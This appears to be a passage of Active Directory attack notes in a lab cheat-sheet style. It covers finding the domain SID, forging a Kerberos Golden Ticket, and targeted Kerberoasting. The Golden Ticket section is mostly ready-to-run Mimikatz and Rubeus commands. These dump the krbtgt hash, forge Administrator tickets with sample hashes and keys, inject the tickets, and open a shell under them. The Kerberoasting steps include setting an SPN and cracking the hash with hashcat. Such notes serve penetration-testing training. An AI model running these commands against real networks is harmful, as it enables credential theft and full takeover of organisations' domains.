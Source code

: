 - Obtaining Domain SID
```powershell
ps> whoami /user
# this gives SID of the user that we're logged in as. If the user SID is "S-1-5-21-1987370270-658905905-1781884369-1105" then the domain SID is "S-1-5-21-1987370270-658905905-1781884369" i.e. omit RID of "1105"
```

### Golden Ticket Ft **Mimikatz** (Forge ticket)
<aside>
Forging a TGT (and the included PAC)
Requires tje krbtgt key, the “master” encryption key from the KDC
Can be used to request any TGS from the Domain Controller
</aside>

```bash
#getting krbtgt (user: krbtgt, NTLM: krbtgt hash)
mimikatz # privilege::debug
mimikatz # lsadump::lsa /patch

#using krbtgt hash via mimikatz
kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt
        mimikatz # kerberos :: golden /user:fakeuser /domain:corp.com /sid:S-1-5-21-4038953314-3014849035-1274281563 /krbtgt:fc274a94b36874d2560a7bd332604fab /ptt
# Example using aes key
kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /aes256:430b2fdb13cc820d73ecf123dddd4c9d76425d4c2156b89ac551efb9d591a439 /ticket:golden.kirbi

 #List tickets in memory
klist

#using krbtgt hash via Rubeus
.\Rubeus.exe ptt /ticket:ticket.kirbi
        .\Rubeus.exe ptt /ticket:C:\Temp\silver.kirbi

#After running above code to generate golden ticket, the golden ticket will be automaticallys submiited for current session
#to launch cmd using the current session validated by golden ticket
mimikatz # misc::cmd
mimikatz # misc::cmd whoami
```

### Targeted Kerberoasting
- Condition: have GenericWrite or GenericAll permissions on another AD user account
- then, purposely set SPN for the targeted user
- then kerberoast the account
- then crack the hash using hashcat to get the clear password
- after attack, REMEMBER to delete the SPN
